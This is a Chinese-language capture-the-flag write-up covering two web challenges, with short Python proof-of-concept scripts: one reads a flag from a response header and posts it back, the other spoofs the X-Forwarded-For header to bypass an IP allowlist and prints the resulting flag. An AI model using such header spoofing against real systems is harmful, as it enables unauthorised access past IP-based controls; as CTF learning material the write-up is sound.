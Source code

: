## 0x04 fast 
SCUCTF还没开始出题人就秀了一把他出的题目，给我看了headers, 我不知道是啥，他说了句，实验吧的天下武功唯快不破。 
 
搜了一下思路有了，拿到flag发送回去就好，poc如下 
 
```python 
import requests 
import base64 
 
url = 'http://223.129.64.72:5000/' 
 
r = requests.Session() 
flag = r.get(url).headers['Flag'] 
 
print flag 
flag = flag[5:] 
# data = base64.b64encode(flag) 
 
# flag = 'flag{%s}' % data 
print flag 
payload = { 
        'flag':flag 
        } 
t = r.post(url+'flag', data=payload) 
# t = r.get(url, params=payload) 
print t.url 
print t.text 
``` 
但是还有个坑，部署他用的uwsgi, 这个针对时间要求特别高的不行，支持很差，第一天没人提交..23333我是第一天晚上才开始做这次的ctf的，那时候还没人提交这道题。 
 
我问题哪里没对么，他说...服务器没对，2333，他重新搞了下，等我回寝室提交的时候就可以了，但是不是一血，有一个人在我之前提交了。 
 
## 0x05 ip 
打开显示 
```html 
您的IP是：121.48.213.217<br>不在允许范围，本系统仅允许202.115.47.141访问 
``` 
觉得是学校的服务器的网段，扫了下扫不动，后来才知道这个是教务处的233333333333 
 
搜了下找到改`X-Forwarded-For`头就行了，伪造来源ip, 利用的poc如下 
```python 
#! coding:utf-8 
import requests 
 
url = 'http://119.29.16.200:5004' 
 
r = requests.get(url) 
print r.encoding 
r.encoding = 'utf-8' 
print r.text 
 
payload ={ 
        'X-Forwarded-For': '202.115.47.141' 
        } 
r = requests.get(url, headers=payload) 
print r.url 
print r.encoding 
r.encoding = 'utf-8' 
print r.text 
 
# D:\Security\scuctf\ip>python ip.py 
# http://119.29.16.200:5004/ 
# ISO-8859-1 
# 您的IP是：202.115.47.141<br>flag{newip_1s_LnterEs9ing} 
 
```